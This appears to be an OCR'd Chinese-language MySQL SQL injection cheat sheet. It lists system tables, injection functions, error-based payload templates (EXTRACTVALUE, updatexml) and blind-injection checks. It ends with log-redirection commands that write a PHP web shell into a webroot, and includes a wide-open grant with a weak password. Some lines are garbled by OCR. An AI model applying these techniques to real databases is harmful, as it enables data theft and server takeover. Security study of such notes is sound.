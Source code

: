 
### 权限控制

```sql
grant all privileges on *.* to admin@'%' identified by 'admin.123'		##创建用户密码并允许所有IP访问所有数据库
```

### 重点表

```sql
mysql.user	host,user,authentication_string		##数据库用户信息
	 .db			##存放数据权限表单
	 .columns_priv		##字段权限表

infomation_schema.chemata		##保存当前系统中所有数据库信息
				 .tables		##表的信息
				 .columns		##字段
```

### 数据库函数

```sql
version()		## 数据库版本
user()
database()
@@datadir()
length()

联合注入：
concat()		## 没有分隔符的连接字符串
group_concat()	## 多个数据在一行取出
rand()			## 随机函数
floor()			## 取整函数
count()			## 汇总函数
group by clause	## 分组语句

报错注入：
EXTRACTVALUE(xxx,concat('~',payload,'~')) 		##xml查询爆破，第二个参数可控
updatexml(xxx,payload,xxx)--+	##同上
ST_LatFromGeoHash()
ST_Pointfromgeohash()
GTID()
exp()

盲注：
left()			## 取最左边的字符		select left(database()，1)='s'
substring()		## 取字符串任意长度的字符
position()		## 取集中的位置

show variables like 'general%'; 	## 查看mysql日志存放路径
set global general log ="ON";		## 开启mysql日志
set globalgeneral log fle-"D:\phpstudy pro\wwwshell.php";		##设置mysql日志目录
```
